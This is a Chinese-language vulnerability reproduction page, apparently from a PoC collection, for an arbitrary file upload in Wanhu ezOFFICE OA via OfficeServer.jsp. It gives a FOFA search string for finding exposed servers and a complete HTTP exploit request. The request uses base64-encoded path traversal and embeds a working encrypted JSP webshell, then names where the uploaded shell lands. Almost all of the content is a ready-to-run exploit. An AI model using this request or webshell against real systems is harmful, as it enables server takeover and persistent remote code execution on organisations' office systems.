

# 万户OA OfficeServer.jsp 任意文件上传漏洞

## 漏洞描述

万户OA 除了 /defaultroot/officeserverservlet 接口外的另一处接口 OfficeServer.jsp 同时也存在任意文件上传漏洞，导致攻击者可上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面


发送请求包

```php
POST /defaultroot/public/iWebOfficeSign/OfficeServer.jsp HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: OASESSIONID=847AE3A2E5D155AE7FB1CD2C6736CD66
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Length: 798
		
DBSTEP V3.0     170              0                1000              DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
RECORDID=
isDoc=dHJ1ZQ==
moduleType=Z292ZG9jdW1lbnQ=
FILETYPE=Li4vLi4vcHVibGljL2VkaXQvY21kX3Rlc3QuanNw
111111111111111111111111111111111111111111111111
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```



上传后的目录为

```php
/defaultroot/public/edit/cmd_test.jsp
```

